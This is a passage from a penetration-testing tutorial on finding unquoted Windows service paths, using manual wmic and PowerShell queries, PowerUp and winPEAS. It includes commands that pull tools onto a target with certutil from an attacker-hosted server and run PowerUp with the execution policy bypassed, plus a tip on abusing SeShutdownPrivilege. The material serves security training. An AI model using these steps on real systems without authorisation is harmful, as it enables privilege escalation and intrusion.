


### **Hunting for unquoted services manually**

1.  First, check the privileges of the current user:  
    `whoami /priv`

    

    **Note:**  
    The `SeShutdownPrivilege` allows restarting a machine. Even if you lack permissions to directly stop/start a service, restarting the machine will also restart the service, enabling exploitation.  
    This privilege can still be used when shown as "Disabled" because it is only disabled for the current session.
    
2.  Manually hunt for unquoted service paths with `cmd`:  
    `wmic service get name,displayname,startmode,pathname | findstr /i /v "C:\Windows\\" | findstr /i /v """`  
    
    
    
3.  Manually hunt for unquoted service paths with PowerShell:  
    `Get-WmiObject -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '"*'} | select Name,DisplayName,StartMode,PathName`

    

    **Note:**  
    Both commands confirm that the `unquotedsvc` service has an unquoted path and is configured as a **Manual** service.
    
4.  Check service path configuration and permissions to start the service:  
    `sc sdshow unquotedsvc`

    

### **Hunting for unquoted services with PowerUp**

1.  If you don’t already have PowerUp, download it:  
    `wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1`

    
    
2.  Host the script using Python:  
    `python3 -m http.server 8000`

    
    
3.  Transfer the script to the target with `certutil`:  
    `certutil -urlcache -f http://[IP-ADDRESS]:8000/PowerUp.ps1 PowerUp.ps1`

    
    
4.  Bypass the PowerShell execution policy and run PowerUp:  
    `powershell -ep bypass -c "& {.\PowerUp.ps1}"`

    

    **Note:**  
    PowerUp can enumerate misconfigurations and sometimes exploit them.  
    However, finding an unquoted service path does not always mean it’s exploitable. PowerUp may suggest an `AbuseFunction`, assuming exploitation is possible.

### **Hunting for unquoted services with winPEAS**

1.  Since the target is a 64-bit OS, host the 64-bit `winPEAS` binary:  
    `python3 -m http.server 8000`

    
    
2.  Transfer it to the target using `certutil`:  
    `certutil -urlcache -f http://[IP-ADDRESS]:8000/winPEASx64.exe winPEASx64.exe`

    
    
3.  Use the `servicesinfo` filter to search for unquoted service paths:  
    `.\winPEASx64.exe quiet servicesinfo`

    

    **Note:**  
    In the `winPEAS` output, red and yellow highlights often indicate important findings such as unquoted service paths. Focus your attention there.
